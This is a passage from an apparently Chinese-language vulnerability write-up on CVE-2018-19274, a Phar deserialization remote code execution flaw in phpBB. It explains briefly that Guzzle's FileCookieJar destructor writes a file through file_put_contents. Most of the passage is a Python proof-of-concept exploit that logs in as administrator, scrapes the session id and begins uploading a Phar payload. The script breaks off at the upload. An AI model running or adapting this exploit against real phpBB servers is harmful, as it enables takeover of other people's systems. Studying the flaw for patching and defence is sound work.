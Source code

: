 文件位置：`phpBB3/vendor/guzzlehttp/guzzle/src/Cookie/FileCookieJar.php`

![17.png](resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId44.png)

析构函数调用`save`函数，最后使用`file_put_contents`完成文件写入，整个漏洞利用完成。

### poc

    # coding =utf-8

    import requests
    from bs4 import BeautifulSoup
    import re

    proxies = {
        "http": "http://127.0.0.1:8080",
    }

    import hashlib


    def md5(str):
        m = hashlib.md5()
        m.update(str.encode("utf8"))
        return m.hexdigest()


    if __name__ == '__main__':
        target = "http://bugtest.com/phpBB3"
        admin_account = 'admin'
        admin_pwd = '123456'
        phar_payload = 'payload.phar.zip'
        upfilename = 'rai4over.zip'

        r = requests.Session()
        data = {
            'username': admin_account,
            'password': admin_pwd,
            'login': 'Login'
        }
        print('Start logging in to the administrator account')
        rs = r.post(target + '/ucp.php?mode=login', data=data)
        html = rs.text

        if ('header-profile dropdown-container' in html) and ("class=\"username-coloured\">" + admin_account in html):
            print('OK! The administrator account is successfully logged in')
        else:
            exit('No! Login failed . Probably because of the verification code')

        soup = BeautifulSoup(html, "html.parser")
        input = soup.find('input', attrs={'name': 'sid'})
        sid = input['value']

        file = {
            'fileupload': open(phar_payload, "rb").read()

